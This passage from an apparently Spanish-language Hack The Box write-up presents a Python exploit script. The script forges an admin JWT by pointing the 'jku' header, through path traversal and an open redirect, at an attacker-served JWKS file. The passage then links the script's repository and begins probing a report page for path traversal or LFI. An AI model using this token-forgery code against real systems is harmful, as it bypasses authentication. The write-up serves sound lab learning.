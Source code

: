 ```python
#create token
def gen_token(key):
    headers = get_headers()
    token = jwt_crypt.JWT(
                header = {
                        "alg" : headers['alg'],
                        "jku" : f"http://hackmedia.htb/static/../redirect/?url={ip}:{port}/jwks.json"
                    },
                claims = {
                        "user" : "admin"
                    }
            )
    token.make_signed_token(key)
    return token.serialize()
     
#port sharing manually
def listen_port(port):
    printYellow(f"\n\n[+] Opening port {port} to share")
    printRed("jwks.json")
    printYellow("file...")
    printYellow(f"\n[+] Serving HTTP on 0.0.0.0 port {port}:\n")
    subprocess.run(['python3', '-m', 'http.server', str(port)])

if __name__ == '__main__':

    gen_key()
    download_json()
    key = get_data_key()
    create_json(key)
    admin_token = gen_token(key)
    printRed("\n[+] Admin token: ")
    printGreen(f"{admin_token}")
    listen_port(port)
```

Pueden clonar el script en mi respositorio: [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/JKU-Header-Inyection_Unicode/exploit.py)

![EXPLOIT](exploit_admin_token.png){: .shadow }

Ejecutando el script y siguiendo los pasos anteriores ya estariamos logeados como `admin`:

![Http\_admin\_page](dashboard_admin_page.png){: .shadow }

Después de toquetear un poco encontramos una sesión de reportes donde podemos observar que se utiliza un archivo `pdf` que proviene de otra locación:

![Http\_admin\_report](report_page.png){: .shadow }

Podriamos estar frente a un `LFI (Local File Inclusion)`, y en específico a un **`path traversal attack`**

